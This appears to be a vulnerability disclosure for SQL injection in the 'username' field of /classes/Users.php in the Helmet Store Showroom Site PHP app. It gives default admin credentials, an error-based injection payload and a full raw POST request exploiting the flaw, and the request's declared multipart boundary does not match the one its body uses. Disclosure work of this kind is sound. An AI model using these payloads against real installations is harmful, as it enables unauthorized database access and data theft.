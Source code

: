 # Helmet Store Showroom Site System - SQL injection

Helmet Store Showroom Site exists to contain a SQL injection vulnerability via the 'username' parameter at /classes/Users.php

username:admin password:admin123 ----> {ip}/classes/Users.php

Supplier： https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

/classes/Users.php has SQL injection

Payload: admin' AND (SELECT 9016 FROM(SELECT COUNT(*),CONCAT(0x716b786271,(SELECT (ELT(9016=9016,1))),0x7171716b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'xBUA'='xBUA

SQL injection because $username can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/27.png)

## Payload

```s
POST /CVE/hss/classes/Users.php?f=save HTTP/1.1
Host: localhost
Content-Length: 766
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxOv65Zyo5ASBf90v
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/CVE/hss/admin/?page=user/manage_user
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=n2hadqmvc7m63oc6q677vrodfv
Connection: close

------WebKitFormBoundaryxOv65Zyo5ASBf90v
Content-Disposition: form-data; name="id"
Content-Type: form-data


--2f394cbdba54150c8dfd7cf59d5021beb644fada8ac9a76e583f5b372627
Content-Disposition: form-data; name="firstname"
Content-Type: form-data

1
--2f394cbdba54150c8dfd7cf59d5021beb644fada8ac9a76e583f5b372627
Content-Disposition: form-data; name="lastname"
Content-Type: form-data

1
--2f394cbdba54150c8dfd7cf59d5021beb644fada8ac9a76e583f5b372627
Content-Disposition: form-data; name="username"
Content-Type: form-data

admin'and'g'='z
--2f394cbdba54150c8dfd7cf59d5021beb644fada8ac9a76e583f5b372627--

```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/28.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/30.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/29.png)